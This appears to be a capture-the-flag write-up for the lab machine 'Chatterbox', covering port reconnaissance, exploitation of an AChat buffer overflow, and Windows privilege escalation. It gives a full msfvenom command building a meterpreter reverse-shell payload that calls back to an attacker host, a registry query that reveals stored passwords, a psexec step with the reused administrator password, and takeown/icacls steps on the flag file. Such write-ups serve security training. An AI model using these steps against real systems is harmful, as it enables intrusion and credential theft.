

# Chatterbox

### Reconnaissance

- port 135 MSRPC MSRPC Microsoft Windows RPC
- port 139 NETBIOS
- port 445 SMB Windows 7 Professional 7601 Service Pack 1
- port 9255 HTTP AChat chat system httpd
- port 9256 ACHAT AChat chat system
- port 49152-49157 MSRPC Microsoft Windows RPC

Anonymous SMB access allowed but no shares

### Exploitation

Using epxloit-db or searchsploit shows that AChat is vulnerable to a [buffer overflow attack](https://www.exploit-db.com/exploits/36025) (SEH bypass)

Replace the payload with a meterpreter shell and remove the byte prefix `b` from the strings (python 2.7)

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX LHOST=10.10.10.2 LPORT=4444 -f python`

Running the exploit grants us a remote meterpreter shell, migrate to a stable process ASAP as the initial 
shell is unstable (set AutoRunScript "migrate -n explorer.exe")

### Privilege Escalation

**Enumeration**

Working our way down https://www.gitbook.com/book/sushant747/total-oscp-guide

`systeminfo` [output](./sysinfo.txt)  
`hostname` Chatterbox  
`whoami` Alfred  
`net users` Administrator, Alfred, Guest  
`net localgroup`  

- Administrators
- Backup Operators
- Cryptographic Operators
- Distributed COM Users
- Event Log Readers
- Guests
- IIS_IUSRS
- Network Configuration Operators
- Performance Log Users
- Performance Monitor Users
- Power Users
- Remote Desktop Users
- Replicator
- Users

`net user alfred` Member of Users group

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"` gives us Alfreds password which is 
also the Administrators password

**Exploitation**

Running the metasploit module `windows/smb/psexec` gives us a system shell

Trying to read root.txt gives us an access denied message. Checking our privileges with `whoami /priv` we see 
that SeTakeOwnership is disabled, we can enable it in a meterpreter shell with `getprivs` or with a PowerShell
script - https://neutronsec.com/privesc/windows/setakeownershippriv/

Once SeTakeOwnership is enabled we can we can use `takeown /f root.txt` to grant us ownership, then use 
`icacls root.txt /grant "nt authority\system":F` to give us full access and the root flag
